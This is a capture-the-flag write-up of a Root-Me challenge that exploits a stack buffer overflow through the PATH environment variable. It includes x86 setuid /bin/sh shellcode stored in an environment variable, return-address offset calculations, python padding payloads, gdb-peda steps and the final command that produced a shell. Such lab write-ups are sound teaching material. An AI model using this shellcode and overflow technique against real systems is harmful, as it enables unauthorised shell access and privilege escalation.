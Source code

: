 ### S0lv3d by H4yicl3


First I download binary file with my scp-script
```
#!/bin/sh
echo "password = app-systeme-$1"
scp -P2222 app-systeme-$1@challenge02.root-me.org:./$1 ./

then ./scp [name_of_challenge]
```

I use IDA to analysis the code .
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [sp+0h] [bp-418h]@1
  char home; // [sp+200h] [bp-218h]@1
  int username; // [sp+280h] [bp-198h]@1
  int shell; // [sp+300h] [bp-118h]@1
  int path; // [sp+380h] [bp-98h]@1       //overflow path
  int *v9; // [sp+40Ch] [bp-Ch]@1	  //so we can overflow pointer v9

  v9 = &argc;
  puts("[+] Getting env...");
  GetEnv((int)&v4);
  qmemcpy(&home, &v4, 0x200u);
  printf("HOME     = %s\n", &home);
  printf("USERNAME = %s\n", &username);
  printf("SHELL    = %s\n", &shell);
  printf("PATH     = %s\n", &path);
  return 0;
}
```
see the code !! try to understand that!!
the path is at sp+0x380 and the pointer is at sp+0x40C
so we count by sp+0x40C -(sp+0x380) = 140 

the important step is create the USERNAME environtment variables
so we use
```
export USERNAME=$(echo h4yicl3)
export PATH=$(python script)
```
to modify the environtment variables

where we point to get shell? 

Now i will introduce the step to create the shell inside the environment variable
```
export hayicle=$(python -c 'print "\x90"*4+"\x31\xc0\x31\xdb\x31\xc9\xb0\x17\xcd\x80\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"')
```
the function download online here : http://pastebin.com/LZM64WGL
and the function getenv can get the address of environt ment to redirect to run this
```
./getenv hayicle ch8
hayicle will be at 0xffffd8a1
```
we get the address then write the exploit like this:
```python
padding = "A"*140
address_of_shell="\xa1\xd8\xff\xff"
print padding + address_of_shell

#create name of this script is ch8.py
```
change the PATH environtment 
```
export PATH=$(python ch8.py)
```

it doesn't work !!! nevermind!!

we try again !!
```
int path; // [sp+380h] [bp-98h]@1       //overflow path
  int *v9; // [sp+40Ch] [bp-Ch]@1         //so we can overflow pointer v9

  v9 = &argc;				//so crazy !! my mistake
  puts("[+] Getting env...");
  GetEnv((int)&v4);
  qmemcpy(&home, &v4, 0x200u);
  printf("HOME     = %s\n", &home);
  printf("USERNAME = %s\n", &username);
  printf("SHELL    = %s\n", &shell);
  printf("PATH     = %s\n", &path);
  return 0;				//so try another way !we need overflow the return address
}
```

we try to use IDA to find the distance between path and return address 
```
-00000098    path             db ? ; undefined
+00000008     r               db ? ; undefined
```
so we have 0x98+0x8=160

try it with following python script
```
export PATH=$(/usr/bin/python -c 'print "A"*160+"\x41\xd8\xff\xff"')
```
we lost again !! 
i debug with gdb-peda and find the mistake! the mistake is return of struct and it use ebp  but ebp are modified !!
what should we do !!
the address this function use is after return !!

i was tried get it with path 128 byte(not overflow)
and i have the exploit look like 
```
export PATH=$(/usr/bin/python -c 'print "A"*160+"\x41\xd8\xff\xff"+"\x10\xd2\xff\xff"')
```

and i try run it again
the result is
```
./ch8 
[+] Getting env...
$ 
```
Congratz !! GLHF!!




if you want to get more !!
try read it
!!
i try debug with gdb-peda
```
gdp-peda ch8
pdis GetEnv
b *GetEnv+6
b *GetEnv+289
r
x/2wx $ebp //the argument 2 is the return address -> i got that
c
x/180wx $esp //try to find the return address -> i got position 
		//look after ret address we have the value need to add 
		
```

that is all we need to do 

the following script i run in sever to get shell

```
export PATH=$(/usr/bin/python -c 'print "A"*160+"\x95\xfd\xff\xbf"+"\x60\xf7\xff\xbf"')
```

So critical!!
